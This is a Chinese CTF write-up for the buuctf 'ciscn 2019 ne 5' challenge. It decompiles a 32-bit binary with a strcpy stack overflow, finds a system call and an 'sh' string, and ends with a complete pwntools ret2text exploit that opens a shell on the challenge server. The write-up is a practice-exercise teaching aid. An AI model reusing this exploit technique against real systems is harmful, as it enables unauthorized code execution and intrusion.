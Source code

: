 ```yaml
---
author: 
  name: Zephyr
title: ciscn 2019 ne 5
date: 2022-3-22 18:54:03
permalink: /pages/2e1547494524d191
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# ciscn 2019 ne 5

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/ciscn_2019_ne_5/ciscn_2019_ne_5'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // [esp+0h] [ebp-100h]
  char src[4]; // [esp+4h] [ebp-FCh]
  char v5; // [esp+8h] [ebp-F8h]
  char s1[4]; // [esp+84h] [ebp-7Ch]
  char v7; // [esp+88h] [ebp-78h]
  const char *v8; // [esp+E8h] [ebp-18h]
  int *v9; // [esp+ECh] [ebp-14h]
  int *v10; // [esp+F4h] [ebp-Ch]

  v10 = &argc;
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  fflush(stdout);
  *(_DWORD *)s1 = 48;
  memset(&v7, 0, 0x60u);
  *(_DWORD *)src = 48;
  memset(&v5, 0, 0x7Cu);
  puts("Welcome to use LFS.");
  printf("Please input admin password:");
  __isoc99_scanf();
  if ( strcmp(s1, "administrator") )
  {
    puts("Password Error!");
    exit(0);
  }
  puts("Welcome!");
  while ( 1 )
  {
    puts("Input your operation:");
    puts("1.Add a log.");
    puts("2.Display all logs.");
    puts("3.Print all logs.");
    printf("0.Exit\n:");
    v9 = &v3;
    v8 = "%d";
    __isoc99_scanf();
    switch ( v3 )
    {
      case 0:
        exit(0);
        return;
      case 1:
        AddLog(src);
        break;
      case 2:
        Display(src);
        break;
      case 3:
        Print();
        break;
      case 4:
        GetFlag(src);
        break;
      default:
        continue;
    }
  }
}
```

AddLog函数如下

```c
int AddLog(int a1)
{
  printf("Please input new log info:");
  return __isoc99_scanf("%128s",a1);
}
```

Display函数如下

```c
int __cdecl Display(char *s)
{
  return puts(s);
}
```

Print函数如下

```c
int Print()
{
  return system("echo Printing......");
}
```

GetFlag函数如下

```c
int __cdecl GetFlag(char *src)
{
  char dest[4]; // [esp+0h] [ebp-48h]
  char v3; // [esp+4h] [ebp-44h]

  *(_DWORD *)dest = 48;
  memset(&v3, 0, 0x3Cu);
  strcpy(dest, src);
  return printf("The flag is your log:%s\n", dest);
}
```

函数表如下

![ciscn_2019_ne_5_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/ciscn_2019_ne_5_1.png)

Gadget

```shell
ROPgadget --binary ciscn_2019_ne_5 --string "sh\x00" 
Strings information
============================================================
0x080482ea : sh
```



## 思路分析

1. 目前信息：
   - `password`是`administrator`
   - 存在栈溢出漏洞
   - `plt`内有`system`
   - 有`sh`字符串
   - No PIE
   - NX 保护开启
2. 思路：
   - `GetFlag`函数将拷贝`AddLog`函数所写入的数据，而`__isoc99_scanf`并未限制写入长度，由此造成溢出，有`system`和`sh`，`ret2text`即可

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/ciscn_2019_ne_5/ciscn_2019_ne_5'
io = remote('node4.buuoj.cn', 27766)
# io = process(pwnfile)
elf = ELF(pwnfile)
io.sendline('administrator')
io.sendlineafter('0.Exit\n', '1')
padding = 0x48+4
system_addr = elf.symbols['system']
sh_addr = 0x80482ea
payload = flat(['a'*padding, system_addr, 0xdeadbeef, sh_addr])
io.sendline(payload)
io.sendline('4')
io.interactive()
```